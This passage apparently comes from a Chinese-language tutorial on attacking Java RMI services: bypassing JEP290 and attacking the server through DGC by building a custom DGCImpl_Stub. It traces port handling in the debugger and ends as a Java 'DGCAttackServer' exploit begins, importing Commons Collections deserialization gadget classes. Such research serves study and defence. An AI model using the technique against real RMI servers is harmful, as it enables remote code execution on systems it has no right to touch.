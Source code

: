 继续运行代码，成功触发 DNS 请求，如下-->

![alt text](20.png)

显然通过这种方法便可使得利用难度大大降低，这也是众多文章中 Bypass JEP290 去攻击 RMI 的手法之一，在此基础上衍生出很多其他的方法，例如 RASP、流量层替换等等。

## DGC 攻击服务端

可以类比为客户端攻击注册中心，客户端攻击注册中心用到的是`java.rmi.registry.RegistryImpl_Stub`中的方法，这里是要用到`sun.rmi.transport.DGCImpl_Stub`中的方法，如下-->

![alt text](12.png)

老样子重写 clean 或者 dirty 方法即可，但这里的问题在于，如何去自实现一个 DGCImpl_Stub？自实现 RegistryImpl_Stub 简单，即`Registry registry = LocateRegistry.getRegistry("192.168.xxx.xxx", 1099);`一行代码完事，但是自实现 DGCImpl_Stub 就比较麻烦，它的端口是不固定的，要想自实现 DGCImpl_Stub 其实就是要去 Hook 到它端口具体的值，跟一跟。

下图是 Client 端开始自实现 DGCImpl_Stub 的位置。

![alt text](13.png)

显然其中的 endpoint 变量是要去重点关注的，有了它，就可以去自实现 DGCImpl_Stub 了，沿着堆栈跟，如下-->

![alt text](14.png)

![alt text](15.png)

![alt text](16.png)

最终就是跟到上图这里，显然`"[192.168.137.114:60891]"`是来自于 incomingRefTable，全局搜索 🔍 它，不难发现它只在一处有赋值，如下-->

![alt text](17.png)

![alt text](18.png)

最后竟然跟到了 ref，而 ref 又是 ServerStubs 中的 LiveRef，所以默认情况下，DGCImpl_Stub 的通信端口是与 ServerStubs 的端口相同的。理论上是可以获得到 ServerStubs 的 LiveRef，接下来选取一下从哪里开始创建 DGCImpl_Stub。

![alt text](13.png)

上图这里吗？但它的 EndpointEntry 方法是私有的，不太方便，那看它的上一层，如下-->

![alt text](14.png)

`public static EndpointEntry lookup(Endpoint ep)`是 public static，那好就它了，写个 demo 尝试如下-->

```java
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import org.apache.commons.collections4.map.TransformedMap;
import sun.rmi.registry.RegistryImpl_Stub;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.Endpoint;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;
import java.lang.annotation.Retention;
import java.lang.reflect.*;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.util.HashMap;
import java.util.Map;

public class DGCAttackServer {
    private static Object getPayload() throws Exception {
```